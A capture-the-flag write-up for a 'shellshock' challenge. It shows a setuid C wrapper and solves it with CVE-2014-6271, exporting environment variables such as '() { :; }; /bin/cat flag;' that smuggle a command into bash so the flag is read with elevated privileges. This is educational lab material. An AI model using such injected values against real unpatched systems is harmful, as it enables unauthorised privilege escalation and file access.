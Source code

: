 # shellshock Writeup

This challenge involves leveraging a bug in the way `bash` handles and executes environment variables.

```c
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}
```
## Discovery
When we take a look at the `groups` command in the terminal, we see that our user account `shellshock` is in the `shellshock` group. Taking a look at the program shows that we set the uid and gid of the runner of the `\home\shellshock\shellshock` program to `shellshock_pwn`. This gives us all hte privledges of that group, allowing us to `cat flag`, however, the program runs its own, command that doesnt use any user input. How do we solve this?

## Solution
### CVE-2014-6271
We can either

```bash
shellshock@ubuntu:~$ export x='() { :; }; command -p cat flag;'
shellshock@ubuntu:~$ ./shellshock
only if I <KEY>!
Segmentation fault
shellshock@ubuntu:~$ 
```
or

```bash
shellshock@ubuntu:~$ export x='() { :; }; /bin/cat flag;'
shellshock@ubuntu:~$ ./shellshock
only if I <KEY>!
Segmentation fault
shellshock@ubuntu:~$ 
```
